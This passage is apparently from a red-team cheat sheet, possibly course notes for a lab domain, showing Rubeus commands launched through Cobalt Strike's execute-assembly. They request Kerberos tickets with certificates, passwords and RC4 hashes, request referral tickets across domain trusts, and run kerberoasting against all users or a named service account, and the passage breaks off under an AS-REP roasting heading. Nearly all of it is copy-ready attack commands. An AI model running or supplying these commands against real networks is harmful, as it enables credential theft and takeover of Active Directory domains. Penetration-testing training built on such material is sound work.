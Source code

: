 The `/enctype:aes256` returns an AES256 ticket instead of RC4.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-2$ /certificate:MIIJyA[...snip...]QCAgfQ /password:"06ce8e51-a71a-4e0c-b8a3-992851ede95f" /enctype:aes256 /nowrap
```

Use `/domain` for domain users.

#### Request Using Certificate

Requests TGT using a certificate for the specified user.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIIM7w[...]ECAggA /password:pass123 /nowrap
```

#### Request with RC4

RC4 tickets are used by default across trusts.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:CYBER$ /domain:msp.org /rc4:f3fc2312d9d1f80b78e67d55d41ad496 /nowrap
```

### asktgs

Requests a referral ticket from the current domain to the target domain.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:krbtgt/dev-studio.com /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFwj[...]MuaW8= /nowrap
```

### kerberoast

Performs a kerberoasting attack.

#### All Users

Performs a kerberoasting attack against all the kerberoastable users.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /simple /nowrap
```

#### One User

Performs a kerberoasting attack against a specified user.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap
```

### asreproast

Performs an ASREP roasting attack against a specified user.
